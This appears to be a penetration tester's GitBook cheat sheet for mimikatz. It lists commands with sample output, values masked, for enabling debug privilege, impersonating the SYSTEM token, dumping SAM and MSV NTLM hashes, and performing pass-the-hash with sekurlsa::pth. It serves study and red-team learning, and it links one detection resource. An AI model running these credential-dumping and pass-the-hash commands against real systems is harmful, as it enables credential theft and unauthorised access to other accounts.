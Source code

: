 # mimikatz

### Resources

1. The Hacker Tools

{% embed url="https://tools.thehacker.recipes/mimikatz" %}

### Basic commands

1. View privilege configurations (?):

`privilege::debug`

* Required to perform actions such as `lsadump::sam` later on

```batch
mimikatz # privilege::debug
Privilege '20' OK
```

2. To impersonate a token:

`token::elevate`

* particularly, a token from `SYSTEM`

{% embed url="https://docs.velociraptor.app/artifact_references/pages/windows.detection.impersonation/" %}

```batch
mimikatza # token::elevate

Token Id  : 0
User name : 
SID name  : NT AUTHORITY\SYSTEM

660     xxxx         NT AUTHORITY\SYSTEM     xxxx       (04g,21p)       Primary
 -> Impersonated !
 * Process Token : xxxx     XXXX     xxxx   (12g,24p)  Primary
 * Thread Token  : {0;000003e7} 1 D 1309519     NT AUTHORITY\SYSTEM     S-1-5-18        (04g,21p)       Impersonation (Delegation)

```

3. Dump the local Security Account Manager (SAM) NT hashes:

`lsadump::sam`

```batch
mimikatz # lsadump::sam
Domain : xxxx
SysKey : xxxx
Local SID : xxxx

SAMKey : xxxx

RID  : xxxx (500)
User : Administrator
  Hash NTLM: xxxx
  
...
```

4. Dumps NT hash by targeting the [MSV1\_0 Authentication Package](https://learn.microsoft.com/en-us/windows/win32/secauthn/msv1-0-authentication-package):

`lsadump::msv`

```batch
mimikatz # lsadump::msv

Authentication Id : 0 ; xxxx (00000000:0004b39c)
Session           : RemoteInteractive from 2 
User Name         : xxxx
Domain            : xxxx
Logon Server      : xxxx
...

        msv :
         [00000003] Primary
         * Username : xxxx
         * Domain   : xxxx
         * NTLM     : xxxx

...
```

5. Revert to original token on mimikatz startup:

`token::revert`&#x20;

```
mimikatz # token::revert
```

6. Performs Pass-the-Hash, Pass-the-Key, Overpass-the-hash:

`sekurlsa::pth`

{% code overflow="wrap" %}
```batch
mimikatz # sekurlsa::pth /user:<username> /domain:<domain> /ntlm:<nt_hash> /run:"<command_to_run>"
```
{% endcode %}

a. `/user` : username to impersonate

b. `/domain` : fully qualified domain name

c. `/ntlm` : NT hash

d. `/run` : command to run

* according to The Hacker Tools (refer link in "Resources" above), it defaults to `cmd.exe`&#x20;

